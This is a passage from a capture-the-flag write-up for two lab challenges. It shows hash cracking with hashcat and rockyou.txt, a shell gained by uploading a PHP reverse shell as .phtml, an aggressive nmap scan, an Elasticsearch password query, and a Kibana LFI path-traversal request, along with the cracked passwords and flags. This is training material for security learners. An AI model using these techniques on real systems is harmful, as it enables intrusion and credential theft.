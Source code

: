 Set the cookie in your browser and navigate to the website's root

- What is Santa Claus' plaintext password?

Save the hash to a file and identify it:

```bash
$ name-that-hash -f hash.txt
```

Crack the hash:

```bash
$ hashcat --force -m 0 -a 0 hash.txt ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

> saltnpepper

- Santa has a secret! Which station is he meeting Mrs Mistletoe in?

![meeting](https://i.postimg.cc/Hs69sKwG/meeting.png)

> Waterloo

- Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

The way is - upload the php reverse shell in a file with .phtml extension

> THM{SHELLS_IN_MY_EGGNOG}

---

## *[Day 24] Elf Stalk*

Let's fire up namp:

```bash
$ sudo nmap 10.10.10.180 -Pn -p- -vv -T4 -A -oN nmap-scan --min-parallelism 55 --script discovery,vuln
```

Visit the Kibana instance and poke around. You'll find the service version in the
Management section:

![kibana-version](https://i.postimg.cc/7LswXSTJ/kibana-version.png)

Great. Searching for Kibana CVE, we find an [LFI vulnerability](https://github.com/mpgn/CVE-2018-17246).

- Find the password in the database

http://10.10.7.81:9200/_search?q=password

> 9Qs58Ol3AXkMWLxiEyUyyf

- Read the contents of the /root.txt file

```bash
$ wget '10.10.7.81:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt'

# After it hangs, kill it an checkout the log file at port 8000. The flag is near
# ReferenceError
```

> someELKfun

---


